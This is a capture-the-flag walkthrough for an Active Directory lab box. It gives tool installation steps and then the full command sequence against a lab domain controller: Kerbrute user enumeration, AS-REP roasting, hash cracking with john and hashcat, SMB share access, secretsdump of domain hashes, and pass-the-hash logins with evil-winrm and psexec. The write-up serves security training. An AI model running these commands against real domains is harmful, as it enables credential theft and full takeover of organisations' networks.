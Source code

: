 # Setup
## Installing Impacket:
Whether you're on the Kali 2019.3 or Kali 2021.1, Impacket can be a pain to install  correctly. Here's some instructions that may help you install it 
correctly!

Note: All of the tools mentioned in this task are installed on the AttackBox already. These steps are only required if you are setting up on your own VM. 
Impacket may also need you to use a python version ```>=3.7```. In the AttackBox you can do this by running your command with ```python3.9 <your command>```.

First, you will need to clone the Impacket Github repo onto your box. The following command will clone Impacket into ```/opt/impacket```:

```sh
git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
```

After the repo is cloned, you will notice several install related files, requirements.txt, and setup.py. A commonly skipped file during the installation 
is setup.py, this actually installs Impacket onto your system so you can use it and not have to worry about any dependencies.

To install the Python requirements for Impacket:
```sh
pip3 install -r /opt/impacket/requirements.txt
```
  
Once the requirements have finished installing, we can then run the python setup install script:
```sh
cd /opt/impacket/ && python3 ./setup.py install
```

After that, Impacket should be correctly installed now and it should be ready to use!

If you are still having issues, you can try the following script and see if this works:
```sh
sudo git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
sudo pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ 
sudo pip3 install .
sudo python3 setup.py install
```
## Installing Bloodhound and Neo4j
Bloodhound is another tool that we'll be utilizing while attacking Attacktive Directory. We'll cover specifcs of the tool later, but for now, we need to 
install two packages with Apt, those being bloodhound and neo4j. You can install it with the following command:

```sh
apt install bloodhound neo4j
```  

# Enumeration
Enum4linux is a tool for enumerating information from Windows and Samba systems. It attempts to offer similar functionality to enum.exe formerly 
available from www.bindview.com.

It is written in PERL and is basically a wrapper around the Samba tools smbclient, rpclient, net and nmblookup. The samba package is therefore a 
dependency.

## Features include:
- RID Cycling (When RestrictAnonymous is set to 1 on Windows 2000)
- User Listing (When RestrictAnonymous is set to 0 on Windows 2000)
- Listing of Group Membership Information
- Share Enumeration
- Detecting if host is in a Workgroup or a Domain
- Identifying the remote Operating System
- Password Policy Retrieval (using polenum)

Q: What invalid TLD do people commonly use for their Active Directory Domain?
A: .local

## Enumerating Users via Kerberos
A whole host of other services are running, including Kerberos. Kerberos is a key authentication service within Active Directory. With this port open, we 
can use a tool called Kerbrute (by Ronnie Flathers @ropnop) to brute force discovery of users, passwords and even password spray!

**Note**: Several users have informed me that the latest version of Kerbrute does not contain the UserEnum flag in Kerbrute, if that is the case with the 
version you have selected, try a older version!

### Enumeration:
For this box, a modified [User List](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt) and 
[Password List](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt) will be used to cut down on time of 
enumeration of users and password hash cracking. It is NOT recommended to brute force credentials due to account lockout policies that we cannot 
enumerate on the domain controller.

```sh
./kerbrute userenum -d spookysec.local --dc 10.10.46.48 userlist.txt
```

# Abusing Kerberos
After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called ASREPRoasting. 
**ASReproasting** occurs when a user account has the privilege **"Does not require Pre-Authentication"** set. This means that the account does not 
need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

## Retrieving Kerberos Tickets
```Impacket``` has a tool called **"GetNPUsers.py"** (located in impacket/examples/GetNPUsers.py) that will allow us to query ASReproastable accounts 
from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via 
Kerbrute.

Remember:  Impacket may also need you to use a python version >=3.7. In the AttackBox you can do this by running your command with 
python3.9 /opt/impacket/examples/GetNPUsers.py.

```sh
python3.9 /opt/impacket/examples/GetNPUsers.py -dc-ip 10.10.46.48 spookysec.local/svc-admin -no-pass
```

Put the complete hash in kerbhash file and then use john to crack the password.
```sh
john kerbhash --wordlist=passwordslist.txt
```

or use hashcat as below:
```sh
hashcat -m 18200 -a 0 kerbhash passwordlist.txt
```

With a user's account credentials we now have significantly more access within the domain. We can now attempt to enumerate any shares that the 
domain controller may be giving out.

Now we can use this password to list shares using smbclient:
```sh
smbclient -L 10.10.46.48 -U svc-admin
```

We can mount the share using below command:
```sh
smbclient -U svc-admin //10.10.46.48/backup
```
# Elevating Privileges within the Domain
Now that we have new user account credentials, we may have more privileges on the system than before. The username of the account "backup" gets us 
thinking. What is this the backup account to?

Well, it is the backup account for the Domain Controller. This account has a unique permission that allows all Active Directory changes to be synced 
with this user account. This includes password hashes

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/8db63b8d-76e9-415b-bc32-e7d76ba49818)

Knowing this, we can use another tool within Impacket called "secretsdump.py". This will allow us to retrieve all of the password hashes that this 
user account (that is synced with the domain controller) has to offer. Exploiting this, we will effectively have full control over the AD Domain.

```sh
python3.9 /opt/impacket/examples/secretsdump.py spookysec.local/backup:backup2517860@10.10.46.48
```

"[Pass the hash](https://www.beyondtrust.com/resources/glossary/pass-the-hash-pth-attack)" method of attack could allow us to authenticate as the user without the password.

Using the hash above we can login as below:
```sh
evil-winrm -i 10.10.46.48 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```

Or we can use impacket's psexec.py script:
```sh
python3.9 /opt/impacket/examples/psexec.py Administrator:@10.10.46.48 -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc
```

